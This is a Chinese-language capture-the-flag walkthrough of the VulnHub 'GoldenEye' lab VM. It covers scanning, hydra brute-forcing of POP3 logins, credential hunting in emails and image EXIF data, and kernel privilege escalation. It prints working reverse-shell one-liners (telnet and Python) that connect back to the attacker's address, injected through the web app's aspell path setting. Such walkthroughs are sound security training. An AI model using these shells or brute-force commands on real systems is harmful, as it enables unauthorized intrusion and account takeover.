# 前言

靶机：`goldeneye`，IP地址为`192.168.10.9`

攻击：`kali`，IP地址为`192.168.10.2`

都采用虚拟机，网卡为桥接模式

这个靶机启动速度不是很快

> 文章涉及的靶机，来自`vulnhub`，可自行从官网下载，或者在本公众号回复`golden`即可获取下载链接

# 主机发现

因为是同一局域网下，所以采用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`，当然也可以使用`nmap`



# 信息发现

## 使用nmap扫描端口



开启了80端口`http`服务，以及邮件相关的两个服务

## 网站信息探测

访问80端口网站，这里是一个个字符像打字输出的



访问给出的目录`/sev-home`，弹窗提示登录

查看原始界面的源代码，发现整个`html`是由`js`代码编写的，直接访问这个`js`代码



查看这个`js`文件，其中给出名字`boris`以及经过编码的密码。还有一个女生的名字`natalya`



这种编码为`html`编码，可自行百度，可通过工具或者在线解码平台进行解码



# 漏洞寻找

密码为`InvincibleHack3r`，用上面两个名字进行登录测试，以`boris`和这个密码登录成功



网站中的话，大概就是让发送邮件到`goldeneye`管理员处，不行这里的话特别有游戏`hacker`的感觉，我觉得还是翻译一下比较好

>黄金眼”是苏联的一项绝密轨道武器项目。鉴于你有权限接触该项目，你无疑拥有绝密级许可，并有资格成为一名经认证的“黄金眼”网络操作员（GNO）。
>
>请给一名合格的GNO主管发送电子邮件，以获取在线的 “黄金眼”操作员培训 ，从而成为“黄金眼”系统的管理员。
>
>记住，由于 隐蔽即安全非常有效，我们已将POP3服务配置在一个非常高的非默认端口上运行。


查看页面源代码，发现在最后面，有提到合格的管理员，就是上面的两个名字`boris`和`natalya`

# pop3服务利用

提示`pop3`不是默认的端口，这里前面在`nmap`扫描的时候，已经发现，使用的是`55006`端口，不过测试这里`55006`通过`nc`连接没有任何信息，测试`55007`端口有信息，并说是`GoldenEye POP3 Electronic-Mail System`

使用`nc`连接这个`pop3`，发现输入上面获取的密码进行测试，两个用户都对应不上，所以可能需要爆破




登录`pop3`服务，常用命令

| 命令 | 作用                                                         |
| ---- | ------------------------------------------------------------ |
| user | 输入user，并在后面跟着用户名，就是进行身份认证               |
| pass | 在键入用户名后，输入对应的密码                               |
| stat | 用于获取邮箱的状态信息                                       |
| list | 如果不带参数，服务器会返回邮箱中每封邮件的编号和大小。如果带有邮件编号参数（如`LIST 2`），则服务器会返回指定编号邮件的大小 |
| retr | 用于从服务器检索指定编号的邮件内容。客户端发送`RETR`命令并带上邮件编号，服务器会返回该邮件的全部内容。 |
| dele | 用于标记指定编号的邮件为删除状态。不过，在 POP3 协议中，邮件通常不会立即被删除，而是在客户端发送`QUIT`命令后，服务器才会真正删除被标记的邮件。 |
| quit | 用于结束与服务器的会话。当客户端发送`QUIT`命令后，服务器会删除之前被标记为删除状态的邮件（如果有），并释放相关资源，然后关闭连接 |

那么当前获取的只有用户，尝试进行爆破吧，把两个用户名写入文件`user`，然后通过`hydra`爆破

```shell
hydra -L user -P /usr/share/wordlists/rockyou.txt 192.168.10.9 pop3 -s 55007
```





两组密码，先登录`boris`，然后登录成功，使用`list`发现三封邮件，使用`retr 1~3`查看内容，发现前两个都是内部人员的交流，并且无价值。

在第三封邮件，出现内容，首先确定`boris`的邮箱，`boris@ubuntu`以及发送者的邮箱`alec@janus.boss`



翻译上面的话，附件这里看不到

>鲍里斯：
>
>你与我们组织的合作将会带来巨大回报。附件是 “黄金眼” 的最终访问密码。将它们存放在这台服务器根目录下的一个隐藏文件中，然后从这封邮件里删除。这些访问密码只有一套，我们必须妥善保管，以备最终行动使用。要是它们被他人获取，我们的计划就会彻底失败！
>
>一旦xenia进入培训站点并熟悉 “黄金眼” 终端密码，我们就将推进到最后阶段……
>
>附言：务必严格保密，否则我们会陷入危机。

切换`natalya`测试，和上面一样，使用`list`查看，发现两封邮件

并且第一个邮件，是`root`告诉其，不要再攻击`boris`了，并且提到一个组织`janus`，啊？前面这个组织和`boris`联系了，叛徒？

查看第二封邮件，发现内容很重要，与前面对应上了



翻译这个话，发现前面`janus`组织发送给`boris`中提到这个人`xenia`并且`janus`组织说过，`xenia`是其组织派去的`spy`

>好的，娜塔莉娅，我这儿有个新学员要交给你。由于这是个新系统，要是你发现任何配置问题，尤其是与安全相关的，一定要告诉我或者鲍里斯…… 即便问题与安全无关，也以 “安全问题” 的名义上报，这样变更指令就能顺利升级，少些麻烦 ：）
>
>好了，用户凭证如下：
>
>用户名：xenia
>密码：RCP90rulez!
>
>鲍里斯已确认她是合规的合作人员，所以你就帮忙创建下账号，没问题吧？
>
>要是你还没有我们内部域的网址，那就是：severnaya-station.com/gnocertdir]
>** 因为你经常远程离线办公，所以一定要编辑你的主机文件……
>
>你是 Linux 用户，就在 /etc/hosts 文件里把这台服务器的 IP 地址指向 severnaya-station.com
>
>（注：原文中 “Natalyn” 疑似拼写错误，应为 “Natalya”；“outr” 疑似拼写错误，应为 “our” ）

首先根据提示，绑定域名



访问提供的内部域网址`severnaya-station.com/gnocertdir`



以上面邮件给的用户名`xenia`和密码`RCP90rulez!`登录即可

最终只发现一个邮件，是`Dr Doak`发送的，并且其是主管



这里邮件信息并没有截图完整，放在下面吧

>你好，泽尼娅。作为我们 “黄金眼” 培训项目的新合作人员，欢迎你。一旦你的账号创建完成，更多课程将出现在你的操作界面上。如果你有任何问题，请通过电子邮件联系我，不要在此处留言。我的邮箱用户名是…… 
>
>多克。
>
>谢谢，祝好！
>多克博士（“博士”）
>高级培训科学家 - 培训运营主管
>“黄金眼” 运营中心
>14 区 - NO2 - 编号：998623 - 1334
>校园 4，57 号楼， - 8 层，6 区，1007 号隔间
>电话：555 - 193 - 826
>手机：555 - 836 - 0944
>办公室电话：555 - 846 - 9811
>私人电话：555 - 826 - 9923
>邮箱：doak@
>
>请在打印前考虑回收利用，保持环保，也就是为公司省钱！
>“有一种悲伤叫‘好好悲伤’。问问查理・布朗就知道了。”—— 某人
>“你不射门，就百分之百不会进球。”—— 韦恩・G
>这是一条机密信息，除非必要，请勿转发。

确定邮箱用户名可能确实是`doak`只有这个信息的话，还是爆破吧，毕竟其他的电话，无法做社工，这里是靶场。

```shell
hydra -l doak -P /usr/share/wordlists/fasttrack.txt 192.168.10.9 pop3 -s 55007
```



密码`goat`，再次使用这个登录`pop3`服务器，使用`list`查看只有一封邮件，使用`retr`查看



这里是真的厉害，主管发送给`james`让其登录他的账号去登录刚刚的界面

>詹姆斯，
>
>如果你正在读这封信，恭喜你已经走到了这一步。你知道情报工作的技巧是怎么回事，对吧？
>
>反正我不懂。去我们的培训网站，登录我的账号…… 深入挖掘，直到你能获取更多信息……

# 图片隐藏信息

以获取到的用户名`dr_doak`和密码`4England!`登录网站，发现存在一个隐私文件`s3cret.txt`，文件夹说是给`james`的，好嘛，这主管想要干什么，查看发现其中有一个图片地址



翻译这段话，说是这个网站的管理员凭证在这个图片这里

> 007， 我成功通过明文获取了这个应用程序的管理员`admin`凭证。 由于黄金眼服务器内大多数网络应用程序中的文本都会被扫描，所以我不能在此处附上这些凭证。 有个有趣的东西在这儿：/dir007key/for - 007.jpg 另外，如你所知，RCP - 90 比其他任何武器都厉害得多，而“杀人执照”模式是唯一值得玩的方式。 

访问这个地址，发现提示说就在这



把这个图片下载到`kali`中，然后使用`exiftool`查看图片属性等，看有无隐藏信息，发现图片描述信息，经过编码处理，这里一眼`base64`，进行解码，发现字符`xWinter1995x!`，这个可能就是管理员`admin`的密码



以管理员`admin`和密码`xWinter1995x!`再次登录这个网站，发现成功

# 反弹shell

登陆后到处测试，发现在添加处，可以有检测字符拼写的操作



然后继续寻找，唉，真的是漫长啊，发现一个路径，根据提示来看，翻译一下

> 要在编辑器中使用拼写检查功能，你的服务器上必须安装 aspell 0.50 或更高版本，并且你必须指定正确路径来访问 aspell 二进制文件。在 Unix/Linux 系统上，该路径通常是 /usr/bin/aspell，但也可能是其他路径。



猜测这个路径就是前面编辑器中的拼写检测所指向的路径，观察这个命令，感觉这个地方可以写入`webshell`

```shell
sh -c '(sleep 4062|telnet 192.168.230.132 4444|while : ; do sh && break; done 2>&1|telnet 192.168.230.132 4444 >/dev/null 2>&1 &)'
```

不过在进行多次尝试，发现各种语言、命令的反弹`shell`都无效，感觉不对，暂时放置，继续寻找

在插件处，发现多个插件，其中有文本编辑的插件，打开设置，发现可以选择拼写引擎，默认的是`google spell`




`ai`搜索一下，三者的差别

> - **Google Spell**：对于普通用户来说，无需额外安装和配置，只要使用 Google 的搜索服务或相关应用，拼写检查功能就会自动生效，使用起来非常便捷。
> - **PSpell**：需要在编程环境中进行安装和配置，对于开发者来说，需要一定的编程知识和技能来在代码中正确地调用和使用 PSpell 的功能。
> - **PSpellShell**：虽然使用命令行进行操作，但对于熟悉命令行的用户来说，它提供了一种快速、便捷的方式来进行拼写检查，无需编写复杂的代码。只需要在命令行中输入相应的命令和参数，即可立即得到拼写检查的结果。

那么设置为`PSpellShell`，因为这个可以输入命令，那么这个命令假如为反弹`shell`的命令呢


那么回到之前指定拼写路径的位置，尝试写入反弹`shell`，测试众多命令，最终使用`python`脚本反弹成功

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

这里可以借助网站`https://forum.ywhack.com/reverse-shell/`生成，方便



# 提权

测试各种，发现三个用户，但是文件夹中都没有内容，只有`boris`中的历史记录，发现修改了`/etc/issue`文件，这是不想让发现版本吗

查看其他文件，收集信息

```shell
cat /etc/os-release
uname -r
```



在`kali`中使用`searchsploit`搜索，发现`c`文件



那么在靶机测试安装了什么编译命令

```shell
gcc -v
cc -v
```



那么先查看之前搜索到的`c`文件，发现其中还是经过`gcc`命令了，所以需要修改文件



利用`python`与`wget`下载到靶机，然后使用`cc`进行编译



这时候给予`exp`执行权限，并执行，即可发现提权成功



查看最终`flag`




# 总结

该靶场考察以下几点：

1. 对于`pop3`服务该怎么进行爆破，记得`hydra`工具强大，支持很多协议的 暴力破解
2. 对于`pop3`服务，连接后的基本命令要知道
3. 对于各种编码要了解，省的再去识别
4. 对于图片隐藏信息也要会发现，这里 采用`exiftool`
5. 对于插件编辑器，可能存在代码执行的操作，这里是借助`PSpellShell`引擎，以及指向拼写的路径，修改这里导致反弹`shell`
6. 对于靶机内的信息要会收集，各种操作系统版本，内核信息，网络状态等等


